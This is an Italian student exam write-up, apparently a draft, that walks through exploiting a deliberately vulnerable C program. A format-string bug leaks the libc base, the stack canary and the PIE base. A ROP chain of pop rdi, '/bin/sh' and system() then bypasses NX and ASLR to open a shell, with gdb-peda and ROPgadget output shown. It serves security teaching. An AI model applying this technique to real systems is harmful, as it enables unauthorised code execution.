

# Titolo da decidere
### Matricola VR457811 - Progetto d'esame per Software Security AA 2022/2023

## Intro

Il progetto inizialmente concordato prevedeva l'apertura di una shell tramite lo sfruttamento di una format-string-vulnerability ed il bypassare la protezione ai buffer overflow costituita dal canarino. Il progetto effettivamente implementato si è spinto più avanti, aprendo una shell in un'applicazione compilata con tutte le protezioni di default attive in gcc su un sistema a 64bit.
Il sistema operativo di interesse è una versione recente di Linux Mint, una distro Ubuntu-based, a 64bit, con la protezione ASLR attiva.


## Strumenti utilizzati

L'attacco viene portato tramite uno script scritto in python versione 3.x e la relativa libreria pwntools. Sono inoltre stati usati per il debug il debugger GDB e la relativa estensione PEDA (Python Exploit Development Assistance) che fornisce una serie di strumenti utili come la generazione di pattern, la ricerca di ROPgadgets e la visualizzazione della posizione in memoria di tutte le librerie caricate dall'eseguibile.
Per scrivere il codice dell'attacco è stato utilizzato vscode.

## Macro-concetti coinvolti nell'attacco

### Format-string-vulnerability
Si tratta di una classe di vulnerabilità scoperte nel 1999 presenti in alcuni linguaggi di programmazione tra cui C. La vulnerabilità è costituita da tre componenti:
- Una format function, ovvero una funzione che ha lo scopo di convertire una o più variabili in qualcosa di leggibile facilmente dall'utente dell'applicativo
- Una format string, ovvero una stringa ASCII che definisce del testo ed il formato dei dati da visualizzare
- Uno o più format string parameters che definiscono come i dati devono essere convertiti per l'inserimento nella format string prima definita

Un esempio è `print("Oggi è il %d/%d/%d\n", d, m, y)`, le tre occorrenze di %d indicano come i parametri che seguono devono essere convertiti (in questo caso come numeri decimali). Il risultato dell'esempio è quindi simile a "Oggi è il 27/5/1987". Altri placeholders sono %s per le stringhe e %x per valori esadecimali.
La vulnerabilità è dovuta principalmente al fatto che non esiste alcun controllo sul fatto che il numero dei placeholders corrisponda al numero di parametri passati ed una volta esauriti i parametri per riempire i placeholders vengono usati i valori trovati sullo stack. E' inoltre possibile far sì che i placeholders non vengano riempiti cercando i parametri in ordine e che il primo placeholder si riferisca, ad esempio, al terzo parametro: `print("Oggi è il %1$d/%0$d/%2$d\n", d, m, y)` diventa quindi "Oggi è il 5/27/1987".
Un placeholder importante per questo attacco è `$lx`, che si aspetta un long unsigned int come valore da visualizzare e ci permette quindi di leggere le aree di memoria in esadecimale 64 bit alla volta.

### Return-oriented programming (ROP)
In un attacco di tipo ROP l'attaccante riesce a dirottare il controllo di flusso dell'applicazione ed eseguire una serie di operazioni da lui scelte tra quelle già incluse nell'applicazione o nelle librerie da essa importate.

### Fuzzing
Il fuzzing è una tecnica di collaudo del software che consiste nell'inviare input non validi o non previsti ad un programma.

### ...Altro...?
[FARE]

## Analisi del target


### Architettura

```
vincenzo@swsec-VirtualBox:~/Desktop/swsec_1$ file vuln
vuln: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=fa4e601e3c0d55b6235c3f7ea5e32aed8a1b01fb, for GNU/Linux 3.2.0, not stripped
```
Il file è un ELF a 64-bit little-endian, dynamically linked.

### Protezioni e caratteristiche del file target

Il target è un eseguibile che è stato compilato con gcc con le protezioni attivate come da default:



### RELocation Read-Only (RELRO)
Per evitare che un attaccante possa scrivere nella GOT riferimenti a funzioni in maniera arbitraria tutti i riferimenti dinamici a librerie esterne vengono risolti all'avvio dell'applicazione e la GOT viene resa read-only.

### Stack canary
Al fine di cercare di evitare gli attacchi di buffer overflow, ovvero di scritture di valori che vanno oltre allo spazio allocato per gli array, il compilatore inserisce automaticamente accanto al buffer [e/o stack?] un valore casuale, generato all'avvio dell'applicazione, e verifica che tale valore rimanga immutato durante l'esecuzione, come ultima operazione al termine dell'esecuzione della funzione corrente. Se il valore letto non coincide con quello generato inizialmente l'applicazione genera un errore.

### Non-eXecutable stack (NX)
Questa protezione consiste nel rendere non eseguibile lo stack, il che comporta che eventuali istruzioni salvate in un buffer non possono essere poi eseguite facendo saltare il base-pointer alla prima di esse. E' un meccanismo che, come i canarini, complica gli attacchi di tipo buffer overflow.

### Position-Independent Executable (PIE)
Con questo meccanismo attivo il codice dell'applicazione viene posizionato, in fase di preparazione all'esecuzione, in un indirizzo definito casualmente, complica quindi gli attacchi che fanno uso di istruzioni interne al programma target.

### Address Space Layout Randomization (ASLR)
Questo meccanismo non è legato all'eseguibile in sé ed è un comportamento del sistema operativo. Consiste nel rendere parzialmente casuale l'indirizzo di partenza delle librerie importate dall'eseguibile oltre a quello dello stack e dell'heap.

### Descrizione

Si tratta di un eseguibile che:
- chiede di inserire una stringa
- la stampa
- chiede di inserire una seconda stringa
- la stampa
- termina

Il programma fa un uso non sicuro della funzione printf, questo ci dà occasione di effettuare un attacco che sfrutta una format-string-vulnerability. Utilizza anche la funzione get che ci consente di riempire un buffer in maniera non controllata a priori ma solo a posteriori (tramite il canarino, che aggireremo).

### Codice sorgente

Questo è il sorgente:

```
#include <stdio.h>
#include <string.h>

void callme() {
  asm volatile ("pop %%rdi\n\t"
      "ret"
      :
      :
      : "rdi");
}

int main(int argc, const char **argv)
{
  char s[16];
 
  printf("Enter name : ");
  fgets(s, 16, stdin);
  puts("Hello");
  printf(s, 16);
  printf("Enter sentence : ");
  fgets(s, 256, stdin);
  return 0;
}
```

Vediamo nel programma anche un esplicito inserimento dell'istruzione assembly "pop rdi; ret" che tuttavia non è stata sfruttata. E' comunque comune, in programmi di dimensioni maggiori, trovarla "naturalmente" nel programma e come vedremo è un'istruzione utile negli attacchi a 64 bit.

### Breve analisi iniziale

Dobbiamo sfruttare il primo inserimento per "curiosare" nello stack e comprendere cosa si trova dopo ad esso. Siccome vogliamo che il programma non termini improvvisamente con un'eccezione mandiamo vogliamo rimanere entro i 16 caratteri per il primo input, per farci un'idea di una ventina di posizioni possiamo quindi eseguire venti volte il programma inviando il comando per leggere una sola posizione ogni volta.
Il testo che dobbiamo dare in input è del tipo `%0\$lx` per la prima posizione, `%1\$lx` per la seconda e così via.
Lo script fuzzer.py automatizza questo processo e ci dà il seguente output:

```
%0$lx - b'AAAA %0$lx'               è il nostro input
%1$lx - b'AAAA 10'
%2$lx - b'AAAA 1'
%3$lx - b'AAAA 7ffff7e94a37'        sembra un indirizzo in libc
%4$lx - b'AAAA 7ffff7f9ba70'        sembra un indirizzo in libc
%5$lx - b'AAAA 5555555596b0'        sembra un indirizzo dell'eseguibile
%6$lx - b'AAAA 7fffffffdcf8'        sembra un indirizzo in libc
%7$lx - b'AAAA 100000000'
%8$lx - b'AAAA 2438252041414141'    contiene parte del nostro input AAAA
%9$lx - b'AAAA a786c'
%10$lx - b'AAAA 0'
%11$lx - b'AAAA a3625ef621117600'    canary?
%12$lx - b'AAAA 1'
%13$lx - b'AAAA 7ffff7da9d90'        sembra un indirizzo in libc
%14$lx - b'AAAA 0'
%15$lx - b'AAAA 5555555551b6'        sembra un indirizzo dell'eseguibile
%16$lx - b'AAAA 100000000'
%17$lx - b'AAAA 7fffffffdcf8'        sembra un indirizzo in libc
%18$lx - b'AAAA 0'
%19$lx - b'AAAA ce42db69663e5e18'    canary?
```

I commenti a destra di alcune righe sono stati aggiunti a posteriori a mano, guardando i valori uno ad uno e tenendo conto che:
- gli indirizzi della libreria libc iniziano con 0x00007f
- gli indirizzi che iniziano con 0x000055 potrebbero essere istruzioni dell'eseguibile
- I valori che sfruttano tutti i 64bit potrebbero essere canarini. Trattandosi di un sistema linux sappiamo che i canarini finiscono con 00 quindi potremmo avere già trovato la posizione del canarino con `%11$lx`, lo verificheremo più avanti.

## Libc leak

Siccome ASLR è attivo la posizione della libreria libc in memoria può variare ad ogni esecuzione, dobbiamo quindi rilevarla per poterci riferire correttamente a parti di essa necessarie per l'attacco.
Nei dati che abbiamo visto nell'analisi iniziale ci sono diversi indirizzi che sembrano appartenere a libc. Possiamo scegliere uno di questi, ad esempio il 3, rieseguire il codice in gbd e prendere nota dell'indirizzo preso con `%3\$lx`. Eseguendo il gdb il comando vmmap controlliamo qual é l'indirizzo di partenza della libreria libc e calcoliamo l'offset: questo offset sarà lo stesso ad ogni esecuzione e ci permetterà quindi di calcolare ad ogni esecuzione l'indirizzo di inizio di libc per quella specifica esecuzione.

## Canary leak

Quando abbiamo parlato dell'analisi iniziale abbiamo anticipato che alcuni input sembrano valori casuali e potrebbero essere canarini. Uno di questi, in particolare, termina con \00 e come detto i canarini sui sistemi linux terminano sembre con tale byte.

Se usiamo GDB e disassembliamo il main troviamo verso la fine queste istruzioni:

```
   0x555555555255 <main+159>:	mov    eax,0x0
   0x55555555525a <main+164>:	mov    rdx,QWORD PTR [rbp-0x8]
=> 0x55555555525e <main+168>:	sub    rdx,QWORD PTR fs:0x28
   0x555555555267 <main+177>:	je     0x55555555526e <main+184>
   0x555555555269 <main+179>:	call   0x555555555090 <__stack_chk_fail@plt>
```

Vediamo che è presente un'istruzione che lancia l'eccezione di buffer overflow, si tratta della call a __stack_chk_fail e vediamo che la condizione che ne influenza l'esecuzione si basa sul registro RDX. Possiamo quindi lanciare l'eseguibile nel debugger, farci dare l'undicesimo valore inserendo nel primo input `%11$lx`, proseguire fino al punto di verifica del canarino e controllare se il valore presente in rdx corrisponde al valore ottenuto dall'input. Nel nostro caso coincide quindi il canarino è proprio tale valore.

## Binary Base Leak (PIE)
[Titolo alternativo: ## Position-Independent Executable (PIE)]
Anche se non è necessario per il nostro attacco, è possibile ottenere il base address anche del codice dell'eseguibile stesso in modo simile a quanto fatto per libc. Eseguiamo in GDB, inseriamo in input `%5$lx` e facciamo poi la differenza tra il risultato e l'indirizzo base che otteniamo tramite il comando vmmap: questo offset rimarrà sempre lo stesso e permetterà quindi ad ogni esecuzione di ottenere il base address dell'eseguibile.

```
gdb-peda$ vmmap
Start              End                Perm	Name
0x0000555555554000 0x0000555555555000 r--p	/home/vincenzo/Desktop/swsec_1/vuln
0x0000555555555000 0x0000555555556000 r-xp	/home/vincenzo/Desktop/swsec_1/vuln
0x0000555555556000 0x0000555555557000 r--p	/home/vincenzo/Desktop/swsec_1/vuln
0x0000555555557000 0x0000555555558000 r--p	/home/vincenzo/Desktop/swsec_1/vuln
0x0000555555558000 0x0000555555559000 rw-p	/home/vincenzo/Desktop/swsec_1/vuln
```

Se il valore ottenuto da %5&lx è 0x5555555596b0 e le istruzioni dell'eseguibile sono allocate a partire dall'indirizzo 0x0000555555554000 l'offset è di `0x5555555596b0 - 0x0000555555554000 = 0x56B0`.

## Ultime informazioni necessarie

Abbiamo visto che con il primo input da inserire possiamo estrarre diverse informazioni utili per violare le diverse protezioni e -condurre, con il secondo input, l'attacco vero e proprio. Ci mancano però ancora alcune informazioni e ora andremo a scoprire. Prima di tutto

### Padding per il canarino

Il metodo più comodo per sapere in che posizione va inserito il canarino è eseguire nuovamente il GDB l'applicazione, inserire una stringa breve nel primo input ed una lunga sequenza non ripetitiva di caratteri nel secondo input. Andiamo avanti di alcune istruzioni e ci portiamo ad appena prima del controllo del canarino. A questo punto copiamo il contenuto del registro RDX e lo cerchiamo all'interno della sequenza passata inizialmente, scoprendo così la posizione in cui il canarino deve trovarsi.

Creiamo la sequenza:
```
gdb-peda$ pattern create 64
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAH
```

Debuggando troviamo il seguente valore:
RDX: 0x3b41414441412841 ('(AADAA;A')

```
gdb-peda$ pattern_offset (AADAA;A
(AADAA;A found at offset: 24
```

## Padding per il return

Trovata la posizione del canarino dobbiamo capire quanti altri caratteri inserire prima di raggiungere la posizione dell'istruzione di return. Per farlo eseguiamo lo script ret_offset.py che con il primo input scopre il valore del canarino e col secondo input invia un numero di caratteri sufficiente a riempire il buffer, seguito dal canarino, seguito dalla solita sequenza creata da gdb. Lo script, oltre ad inserire gli input, apre una sessione con gdb e ci permette di guardare registri, stack e quant'altro. Con il comando `pattern search` gdb cerca pezzi di pattern in tutte le posizioni e ci restituisce questo:

```
gdb-peda$ pattern search
Registers contain pattern buffer:
RBP+0 found at offset: 0
Registers point to pattern buffer:
[RSP] --> offset 8 - size ~58
Pattern buffer found at:
0x00005555555596d0 : offset    0 - size   64 ([heap])
0x00007fffffffde20 : offset    0 - size   64 ($sp + -0x8 [-2 dwords])
References to pattern buffer found at:
0x00007fffffffddc8 : 0x00007fffffffde20 ($sp + -0x60 [-24 dwords])
```

La riga che ci interessa è quella relativa a [RSP] dove vediamo un offset pari a 8: quella è la lunghezza del secondo blocco di caratteri junk che dobbiamo inserire per arrivare a sovrascrivere il ret:
'A'* 24 + canary + 'B'* 8 + ROP

## Exploitation

Il nostro obiettivo finale è riuscire ad eseguire `system("/bin/sh")`, per fare questo, e non potendo iniettare codice nello stack per eseguirlo a causa della protezione *Non-eXecutable stack*, dobbiamo trovare delle istruzioni da sfruttare già presenti nel codice in esecuzione. Siccome ci troviamo su un sistema a 64 bit i parametri vengono passati alla funzione non tramite lo stack ma tramite i registri. La funzione system si aspetta il primo parametro nel registro RDI e dobbiamo quindi trovare da qualche parte nel codice la stringa /bin/sh e riuscire ad inserirla nel registro RDI. Dopodichè possiamo eseguire system, che andrà a leggere RDI ed eseguirà la shell.

Il nostro payload diventa quindi:
'A'* 24 + canary + 'B'* 8 + POP_RDI + BIN_SH_ADDRESS + SYSTEM_ADDRESS

Dobbiamo trovare l'indirizzo di un'istruzione "pop rdi; ret" nel codice esistente, possiamo cercarlo nel codice dell'eseguibile oppure nella libreria libc. In questo secondo caso diventa superfluo il binary base leak spiegato prima. In qualunque caso per trovare l'indirizzo di una particolare istruzione possiamo sfruttare il tool ROPgadget così:
```
vincenzo@swsec-VirtualBox:~/Desktop/swsec_1$ ROPgadget --binary /usr/lib/x86_64-linux-gnu/libc.so.6 | grep "pop rdi"
0x00000000000f7a3e : cld ; pop rdi ; sete cl ; or eax, ecx ; jmp 0xf79d5
0x00000000000eac33 : cli ; pop rdi ; mov eax, 0x3a ; syscall
0x00000000001b0a1b : pop rdi ; add dword ptr [rax - 0x72b7bfb1], ecx ; ret
0x00000000000ba378 : pop rdi ; and byte ptr [rsi + 0xf], ah ; out dx, eax ; jmp 0x677ab2e8
0x00000000000ba598 : pop rdi ; and byte ptr [rsi + 0xf], ah ; out dx, eax ; jmp 0x677ab508
0x000000000017ff4e : pop rdi ; jmp 0xfffffffff167889c
0x000000000002a745 : pop rdi ; pop rbp ; ret
0x000000000002a3e5 : pop rdi ; ret
0x00000000001bc10d : pop rdi ; ret 0xffe6
0x000000000008eef5 : pop rdi ; retf
0x00000000000538c3 : pop rdi ; sbb al, 0 ; jmp 0x5387d
```

La lista di risultati è molto più lunga ma abbiamo omesso la maggior parte delle righe. La riga che ci interessa, in ogni caso, è questa:
```
0x000000000002a3e5 : pop rdi ; ret
```

Se l'attacco non funziona ancora può essere a causa di un disallineamento. Provandolo si vede infatti il programma crashare sull'istruzione _movaps XMMWORD PTR [rsp],xmm0_ con un SIGSEGV, ovvero un segmentation fault. Questo è dovuto alle specifiche _System V Application Binary Interface_ (usato tra gli altri da Linux e di cui ELF è parte) che un allineamento dello stack a 16-byte prima di una call.
Per risolvere possiamo aggiungere un'istruzione di ret che provoca il pop di 8 byte dalla cima dello stack sistemando così l'allineamento. Anche l'istruzione ret può essere trovata all'interno di libc, nello stesso modo di _pop rdi_.